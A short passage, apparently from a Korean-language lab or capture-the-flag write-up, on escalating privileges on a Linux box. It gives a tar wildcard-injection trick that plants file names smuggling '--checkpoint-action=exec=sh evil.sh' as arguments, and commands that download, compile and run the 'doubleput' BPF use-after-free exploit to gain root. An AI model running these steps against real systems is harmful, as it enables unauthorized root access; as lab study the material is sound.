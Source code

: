 ```shell
touch '/home/SHayslett/--checkpoint=1'; touch '/home/SHayslett/--checkpoint-action=exec=sh evil.sh'
```

- `sudoers` 파일을 덮어씌우는 것을 시도해 보았지만, 성공하지 못했습니다.

[Linux: UAF via double-fdput() in bpf(BPF_PROG_LOAD) error path [42452340] - Project Zero](https://project-zero.issues.chromium.org/issues/42452340)

```shell
wget https://gitlab.com/exploit-database/exploitdb-bin-sploits/-/raw/main/bin-sploits/39772.zip
unzip 39772.zip
tar -xvf exploit.tar 
./compile.sh
./doubleput 
```
- BPF 맵의 UAF 취약점을 활용한 exploit으로 root 권한을 얻어낼 수 있었습니다.
